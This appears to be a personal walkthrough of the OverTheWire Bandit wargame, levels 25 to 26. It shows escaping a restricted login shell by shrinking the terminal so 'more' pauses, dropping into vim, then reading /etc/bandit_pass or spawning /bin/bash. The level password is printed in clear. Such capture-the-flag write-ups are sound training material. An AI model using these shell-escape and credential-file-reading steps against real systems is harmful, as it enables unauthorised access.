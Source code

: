 in the name of GOD


bandit25@bandit:~$ ls
bandit26.sshkey

bandit25@bandit:~$ exit

scp -P 2220 bandit25@bandit.labs.overthewire.org:bandit26.sshkey /home/crow/

ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
.
.
.
connection closed.
#so the shell close the connection,to know what shell is the default for a user, can be found at the ‘/etc/passwd/"user"’ file. example:
cat passwd | grep crow                                           
crow:x:1000:1000:Crow,,,:/home/crow:/usr/bin/zsh


bandit25@bandit:~$ cat /etc/passwd | grep bandit 26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0

#so we are stuck in more, and connection closes because the txt(bandit26 ascii banner) in text.txt is short and more does not go into interactive mode, it reads the txt and closes the connection imideatly

#so we must minimize the terminal window to the point that makes more go into interactive mode and dont close the connection.


ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
#with minimized terminal window we run this comman and go into interactive mode of more, and we see something like this:
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)

#then we press "v" to go into vim, and with ":e" command we can "e=Edit another file" — it closes the current buffer and opens a new file.

(in vim) :e /etc/bandit_pass/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ


#OR we can get a shell from vim

(in vim) :set shell=/bin/bash

(in vim) :shell

#This launches a full interactive shell

bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

